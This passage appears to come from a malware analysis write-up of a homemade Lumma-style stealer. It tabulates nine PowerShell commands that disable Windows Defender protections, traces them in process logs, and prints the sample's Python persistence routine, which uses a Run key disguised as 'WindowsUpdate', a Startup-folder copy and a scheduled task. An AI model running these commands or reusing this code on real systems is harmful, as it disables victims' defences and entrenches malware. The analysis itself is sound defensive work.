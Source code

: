 It carry a list of commands and these PowerShell commands weaken Windows Defender's security features, likely to evade detection for malicious activities such as malware execution. Here is a breakdown of what they do:

| **Command**                                                | **Effect**                                                                                                                                                  |
| ---------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Set-MpPreference -DisableRealtimeMonitoring $true`        | **Disables real-time protection**, allowing malware to run without immediate detection.                                                                     |
| `Set-MpPreference -DisableBehaviorMonitoring $true`        | **Disables behavior-based detection**, preventing Defender from detecting suspicious actions.                                                               |
| `Set-MpPreference -DisableBlockAtFirstSeen $true`          | **Disables first-time-seen file scanning**, preventing Defender from blocking new malware samples.                                                          |
| `Set-MpPreference -DisableIOAVProtection $true`            | **Disables scanning of files downloaded from the internet**, making it easier to run malicious payloads.                                                    |
| `Set-MpPreference -DisablePrivacyMode $true`               | **Allows Defender to show full threat details**, useful for attackers debugging Defender responses.                                                         |
| `Set-MpPreference -MAPSReporting 0`                        | **Disables cloud-based protection (Microsoft Advanced Protection Service - MAPS)**, stopping Defender from checking with Microsoft for threat intelligence. |
| `Set-MpPreference -SubmitSamplesConsent 2`                 | **Prevents Defender from submitting malware samples to Microsoft**, helping attackers avoid detection.                                                      |
| `Set-MpPreference -DisableIntrusionPreventionSystem $true` | **Disables network-based attack prevention**, making the system more vulnerable.                                                                            |
| `Set-MpPreference -DisableScriptScanning $true`            | **Disables script-based malware detection**, allowing malicious PowerShell or JavaScript to execute freely.                                                 |
Previously we got `pretty_normal_file_x64.exe` PID and it is `6920` we will use it to see child process for it. 
![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/12.png)

It spawned itself again. I will retrieve the child process ID (PID) and filter using it. The PID for the child process is `1640`, and filtering with it gives:

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/13.png)

We have our 9 commands that were used to disable the Windows Defender and more. The timestamp for those actions is `2025-02-17T15:49:22.592Z` to `2025-02-17T15:49:59.705Z`. Also the `Does this go to Tahiti` was executed. This behaviour corresponds to [Impair Defenses: Disable or Modify Tools (T1562.001)](https://attack.mitre.org/techniques/T1562/001/).
## Persistence

We have this function:
```
def establish_persistence():
    key = winreg.HKEY_CURRENT_USER
    reg_path = 'Software\\Microsoft\\Windows\\CurrentVersion\\Run'
    with winreg.OpenKey(key, reg_path, 0, winreg.KEY_SET_VALUE) as reg:
        winreg.SetValueEx(reg, 'WindowsUpdate', 0, winreg.REG_SZ, EXE_PATH)
    time.sleep(3)
    startup_folder = os.path.join(os.getenv('APPDATA'), 'Microsoft\\Windows\\Start Menu\\Programs\\Startup')
    startup_path = os.path.join(startup_folder, 'winupdate.exe')
    shutil.copy(EXE_PATH, startup_path)
    time.sleep(3)
    task_command = f'schtasks /create /tn "what_a_rat" /tr "{EXE_PATH}" /sc onlogon /rl highest /f'
    subprocess.run(task_command, shell=True)
```
